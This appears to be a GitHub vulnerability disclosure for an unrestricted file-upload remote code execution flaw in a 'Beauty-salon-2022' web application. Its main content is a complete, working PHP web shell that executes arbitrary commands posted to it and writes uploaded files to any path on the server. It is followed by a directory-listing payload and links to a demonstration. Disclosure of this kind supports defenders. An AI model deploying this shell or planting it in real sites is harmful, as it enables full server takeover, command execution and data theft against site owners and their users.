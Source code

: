 ## Beauty-salon-2022-Webshell-file-upload-RCE

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-12%20162133.png)

## Description:
The parameter `userimage` from Beauty-salon-2022 suffers from Web Shell-File Upload - RCE.
NOTE: The user permissions of this system are not working correctly, and the function is not sanitizing well.
The attacker can use an already created account from someone who controls this system and he can upload a very malicious file by using this vulnerability, 
or more precisely (no sanitizing of function for edit image), for whatever account, then he can execute it from anywhere on the external network.

Status: HIGH Vulnerability

[+] Exploit-File-Upload:

```php
<!-- Project Name : PHP Web Shell -->
<!-- Version : 4.0 nu11secur1ty -->
<!-- First development date : 2022/10/05 -->
<!-- This Version development date : 2022/10/05 -->
<!-- Moded and working with PHP 8 : 2022/10/05 -->
<!-- language : html, css, javascript, php -->
<!-- Developer : nu11secur1ty -->
<!-- Web site : https://www.nu11secur1ty.com/ -->

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html" charset="euc-kr">
		<title>PHP Web Shell Ver 4.0 by nu11secur1ty</title>
		<script type="text/javascript">
			function FocusIn(obj)
			{
				if(obj.value == obj.defaultValue)
					obj.value = '';
			}
			
			function FocusOut(obj)
			{
				if(obj.value == '')
					obj.value = obj.defaultValue;
			}
		</script>
	</head>
	<body>
		<b>WebShell's Location = http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?></b><br><br>
		
		HTTP_HOST = <?php echo $_SERVER['HTTP_HOST'] ?><br>
		REQUEST_URI = <?php echo $_SERVER['REQUEST_URI'] ?><br>
		
		<br>
		
		<form name="cmd_exec" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">	
			<input type="text" name="cmd" size="70" maxlength="500" value="Input command to execute" onfocus="FocusIn(document.cmd_exec.cmd)" onblur="FocusOut(document.cmd_exec.cmd)">
			<input type="submit" name="exec" value="exec">
		</form>
		<?php
			if(isset($_POST['exec']))
			{
				exec($_POST['cmd'],$result);

				echo '----------------- < OutPut > -----------------';
				echo '<pre>';
				foreach($result as $print)
				{
					$print = str_replace('<','&lt;',$print);
					echo $print . '<br>';
				}
				echo '</pre>';
			}
			else echo '<br>';
		?>
		
		<form enctype="multipart/form-data" name="file_upload" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">
			<input type="file" name="file">
			<input type="submit" name="upload" value="upload"><br>
			<input type="text" name="target" size="100" value="Location where file will be uploaded (include file name!)" onfocus="FocusIn(document.file_upload.target)" onblur="FocusOut(document.file_upload.target)">
		</form>
		<?php
			if(isset($_POST['upload']))
			{
				$check = move_uploaded_file($_FILES['file']['tmp_name'], $_POST['target']);
				
				if($check == TRUE)
					echo '<pre>The file was uploaded successfully!!</pre>';
				else
					echo '<pre>File Upload was failed...</pre>';
			}
		?>
	</body>
</html>
```
[+]Exploit-RCE:

- Web server directory listing, after executing `exploit.php` in the browser.

```PHP
<?php
$dir    = '/';
$files1 = scandir($dir);
$files2 = scandir($dir, 1);

print_r($files1);
print_r($files2);
?>
```
![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-18%20112750.png)

- In action

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/RCE.gif)

# Proof and Exploit:
[href](https://streamable.com/ewdmoh)
